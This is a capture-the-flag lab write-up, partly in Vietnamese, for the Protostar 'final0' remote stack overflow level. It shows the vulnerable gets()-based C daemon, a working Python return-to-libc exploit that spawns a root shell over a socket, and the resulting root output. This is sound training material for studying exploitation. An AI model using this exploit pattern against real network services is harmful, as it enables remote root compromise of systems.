 # FINAL ZERO

## About

This level combines a stack overflow and network programming for a remote overflow.

Hints: depending on where you are returning to, you may wish to use a toupper() proof shellcode.

Core files will be in /tmp.

This level is at /opt/protostar/bin/final0

## Source code

```C
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

## Solutions

`FINAL ZERO` là hướng dẫn khai thác stack overflow và viết mã khai thác chương trình đang chạy remote.

Về cơ bản, chương trình yêu cầu chùng ta nhập một tên người dùng và sau đó trả lại nó ở dạng chữ hoa. Các ký tự `'\n'` và `'\r'` trong input chúng ta gửi đi sẽ dược thay thế bằng `NULL`, đây là một điều cần lưu ý vì bên dưới đoạn code `strlen()` và `strdup()` sẽ dừng tại `NULL` nếu như các ký tự trong chuỗi bị thay thế.

File final0.py

```
import struct
import socket
import telnetlib

HOST = '127.0.0.1'
PORT = 2995
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

padding = "a"*510+"\x00"+"aaaabbbbccccddddeeeef"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 1176511 + 0xb7e97000)
exploit = padding + execve + "AAAA" + binsh + "\x00"*8

s.send(exploit+"\n")
s.send("id\n")
print s.recv(1024)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Khai thác.

```
root@protostar:/# /opt/protostar/bin/final0
root@protostar:/tmp# python final0.py
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux protostar 2.6.32-5-686 #1 SMP Mon Oct 3 04:15:24 UTC 2011 i686 GNU/Linux


```

## Documents

[Final0](https://www.youtube.com/watch?v=HAN8Qun26cQ)



